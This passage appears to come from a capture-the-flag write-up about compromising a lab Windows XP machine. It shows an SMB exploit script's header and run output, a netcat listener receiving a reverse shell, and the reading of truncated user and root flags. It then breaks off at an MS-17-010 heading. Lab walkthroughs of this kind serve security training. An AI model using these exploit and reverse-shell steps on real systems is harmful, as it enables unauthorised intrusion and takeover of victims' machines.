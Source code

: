     #   - Added support for selecting a target port at the command line.
    #   - Changed library calls to allow for establishing a NetBIOS session for SMB transport
    #   - Changed shellcode handling to allow for variable length shellcode.
    #######################################################################

    $   This version requires the Python Impacket library version to 0_9_17 or newer.
    $
    $   Here's how to upgrade if necessary:
    $
    $   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
    $   cd impacket
    $   pip install .

    #######################################################################

    Windows XP SP3 English (NX)

    [-]Initiating connection
    [-]connected to ncacn_np:10.10.10.4[\pipe\browser]
    Exploit finish



As it's running, I get a callback on my listener:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.4.
    Ncat: Connection from 10.10.10.4:1028.
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:\WINDOWS\system32>



And from there I can get both flags:



    C:\Documents and Settings\john\Desktop>type user.txt
    e69af0e4...

    C:\Documents and Settings\Administrator\Desktop>type root.txt
    993442d2...



### MS-17-010

